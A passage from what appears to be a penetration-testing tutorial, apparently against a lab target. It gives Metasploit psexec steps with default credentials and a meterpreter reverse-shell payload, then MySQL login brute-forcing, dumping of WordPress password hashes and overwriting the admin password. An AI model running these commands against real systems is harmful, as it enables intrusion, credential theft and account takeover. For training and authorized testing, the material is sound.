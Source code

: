 ```shell
use exploit/windows/smb/psexec
set RHOSTS <target_IP>
set SMBUser Administrator
set SMBPass vagrant
set payload windows/x64/meterpreter/reverse_tcp
exploit
```

### 6.5. Targeting MySQL Database Server

This focuses on techniques for exploiting MySQL on a Windows target, including identifying vulnerabilities, gaining unauthorized access, and manipulating database information to achieve administrative control.

```shell
ping -c 1 <target_IP>
nmap -sV -sC -p 3306, 8585 <target_IP>
searchsploit MySQL 5.5

# To begin with, we will need to start the Metasploit Framework console (msfconsole), this can be done by running the following command:
service postgresql start && msfconsole
use auxiliary/scanner/mysql/mysql_login
set RHOSTS <target_IP>
set PASS_FILE /usr/share/wordlists/metasploit/unix_passwords.txt
exploit

# Password for the root user is NULL which means that we can log in to the MySQL database server with the root user account without providing a password!
# Given that we have identified the root user password for the MySQL database server, we can remotely authenticate the MySQL database server by running the following command:
mysql -u root -p -h <target_IP>
show databases;
use wordpress;
show tables;
select * from wp_users;
# From this point, we can copy the password hashes displayed in the user_pass column. 
UPDATE wp_users SET user_pass = MD5('password123') WHERE user_login = 'admin';

# We can now navigate to the WordPress site via a browser by accessing the following URL:
http://<target_IP>:<target_port>/wordpress/wp-admin
```

<br>

## 7. Linux Exploitation

### 7.1. Port Scanning & Enumeration - Linux

Port scanning and enumeration are fundamental techniques that help identify open ports, services running on those ports, and potential vulnerabilities on target systems.
